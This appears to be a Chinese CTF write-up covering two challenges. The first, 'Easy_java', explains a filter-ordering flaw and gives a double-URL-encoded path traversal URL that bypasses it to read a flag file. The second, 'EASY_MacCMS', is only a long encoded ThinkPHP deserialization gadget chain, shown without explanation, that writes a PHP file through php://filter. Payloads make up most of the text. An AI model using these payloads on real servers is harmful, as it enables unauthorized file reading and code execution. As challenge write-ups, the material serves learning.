


## Easy_java

题目给了源码，简单分析了一下，配置了两个过滤器,分别对参数中的path和flag进行检验，那要想办法绕过这个filter的控制，接下来可以看一下filter代码的具体实现。

```xml

    <filter>
        <filter-name>FlagCheck</filter-name>
        <filter-class>ctf.java.FlagCheck</filter-class>
    </filter>

    <filter>
        <filter-name>PathCheck</filter-name>
        <filter-class>ctf.java.PathCheck</filter-class>
    </filter>

```

FlagCheck查询是否含有flag字符串，如果存在就返回为空



PathCheck查询path是否存在目录穿越的符号，如果有就返回空。



但是 需要明确的是根据filter的定义顺序可以推断出它们的执行顺序，可以明确Flag是先执行的然后执行Path且在PathCheck存在URLDecode的函数，也就是会对URL进行再次解码，所以通过这个思路。

我们可以对Payload进行二次编码来绕过。

```java
http://localhost:8081/?path=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%35%35%25%37%33%25%36%35%25%37%32%25%37%33%25%32%66%25%36%64%25%36%35%25%33%37%25%36%35%25%36%66%25%37%32%25%36%39%25%37%34%25%36%35%25%32%66%25%34%34%25%36%66%25%36%33%25%37%35%25%36%64%25%36%35%25%36%65%25%37%34%25%37%33%25%32%66%25%34%61%25%36%31%25%37%36%25%36%31%25%32%66%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%36%36%25%36%63%25%36%31%25%36%37%25%32%65%25%37%34%25%37%38%25%37%34
```

## EASY_MacCMS


```payload
data=O%3A27%3A%22think%5Cprocess%5Cpipes%5CWindows%22%3A1%3A%7Bs%3A34%3A%22%00think%5Cprocess%5Cpipes%5CWindows%00files%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00append%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A8%3A%22getError%22%3B%7Ds%3A8%3A%22%00%2A%00error%22%3BO%3A27%3A%22think%5Cmodel%5Crelation%5CHasOne%22%3A3%3A%7Bs%3A15%3A%22%00%2A%00selfRelation%22%3Bb%3A0%3Bs%3A8%3A%22%00%2A%00query%22%3BO%3A14%3A%22think%5Cdb%5CQuery%22%3A1%3A%7Bs%3A8%3A%22%00%2A%00model%22%3BO%3A20%3A%22think%5Cconsole%5COutput%22%3A2%3A%7Bs%3A28%3A%22%00think%5Cconsole%5COutput%00handle%22%3BO%3A30%3A%22think%5Csession%5Cdriver%5CMemcached%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A23%3A%22think%5Ccache%5Cdriver%5CFile%22%3A2%3A%7Bs%3A6%3A%22%00%2A%00tag%22%3Bs%3A1%3A%221%22%3Bs%3A10%3A%22%00%2A%00options%22%3Ba%3A5%3A%7Bs%3A6%3A%22expire%22%3Bi%3A0%3Bs%3A12%3A%22cache_subdir%22%3Bb%3A0%3Bs%3A6%3A%22prefix%22%3Bs%3A0%3A%22%22%3Bs%3A4%3A%22path%22%3Bs%3A68%3A%22php%3A%2F%2Ffilter%2Fwrite%3Dstring.rot13%2Fresource%3D.%2Fstatic%2F%3C%3Fcuc+cucvasb%28%29%3B%3F%3E%22%3Bs%3A13%3A%22data_compress%22%3Bb%3A0%3B%7D%7Ds%3A9%3A%22%00%2A%00config%22%3Ba%3A7%3A%7Bs%3A4%3A%22host%22%3Bs%3A9%3A%22127.0.0.1%22%3Bs%3A4%3A%22port%22%3Bi%3A11211%3Bs%3A6%3A%22expire%22%3Bi%3A3600%3Bs%3A7%3A%22timeout%22%3Bi%3A0%3Bs%3A12%3A%22session_name%22%3Bs%3A1%3A%221%22%3Bs%3A8%3A%22username%22%3Bs%3A0%3A%22%22%3Bs%3A8%3A%22password%22%3Bs%3A0%3A%22%22%3B%7D%7Ds%3A9%3A%22%00%2A%00styles%22%3Ba%3A7%3A%7Bi%3A0%3Bs%3A4%3A%22info%22%3Bi%3A1%3Bs%3A5%3A%22error%22%3Bi%3A2%3Bs%3A7%3A%22comment%22%3Bi%3A3%3Bs%3A8%3A%22question%22%3Bi%3A4%3Bs%3A9%3A%22highlight%22%3Bi%3A5%3Bs%3A7%3A%22warning%22%3Bi%3A6%3Bs%3A7%3A%22getAttr%22%3B%7D%7D%7Ds%3A11%3A%22%00%2A%00bindAttr%22%3Ba%3A1%3A%7Bi%3A123%3Bs%3A4%3A%22feng%22%3B%7D%7Ds%3A9%3A%22%00%2A%00parent%22%3BO%3A20%3A%22think%5Cconsole%5COutput%22%3A2%3A%7Bs%3A28%3A%22%00think%5Cconsole%5COutput%00handle%22%3BO%3A30%3A%22think%5Csession%5Cdriver%5CMemcached%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A23%3A%22think%5Ccache%5Cdriver%5CFile%22%3A2%3A%7Bs%3A6%3A%22%00%2A%00tag%22%3Bs%3A1%3A%221%22%3Bs%3A10%3A%22%00%2A%00options%22%3Ba%3A5%3A%7Bs%3A6%3A%22expire%22%3Bi%3A0%3Bs%3A12%3A%22cache_subdir%22%3Bb%3A0%3Bs%3A6%3A%22prefix%22%3Bs%3A0%3A%22%22%3Bs%3A4%3A%22path%22%3Bs%3A68%3A%22php%3A%2F%2Ffilter%2Fwrite%3Dstring.rot13%2Fresource%3D.%2Fstatic%2F%3C%3Fcuc+cucvasb%28%29%3B%3F%3E%22%3Bs%3A13%3A%22data_compress%22%3Bb%3A0%3B%7D%7Ds%3A9%3A%22%00%2A%00config%22%3Ba%3A7%3A%7Bs%3A4%3A%22host%22%3Bs%3A9%3A%22127.0.0.1%22%3Bs%3A4%3A%22port%22%3Bi%3A11211%3Bs%3A6%3A%22expire%22%3Bi%3A3600%3Bs%3A7%3A%22timeout%22%3Bi%3A0%3Bs%3A12%3A%22session_name%22%3Bs%3A1%3A%221%22%3Bs%3A8%3A%22username%22%3Bs%3A0%3A%22%22%3Bs%3A8%3A%22password%22%3Bs%3A0%3A%22%22%3B%7D%7Ds%3A9%3A%22%00%2A%00styles%22%3Ba%3A7%3A%7Bi%3A0%3Bs%3A4%3A%22info%22%3Bi%3A1%3Bs%3A5%3A%22error%22%3Bi%3A2%3Bs%3A7%3A%22comment%22%3Bi%3A3%3Bs%3A8%3A%22question%22%3Bi%3A4%3Bs%3A9%3A%22highlight%22%3Bi%3A5%3Bs%3A7%3A%22warning%22%3Bi%3A6%3Bs%3A7%3A%22getAttr%22%3B%7D%7D%7D%7D%7D
```

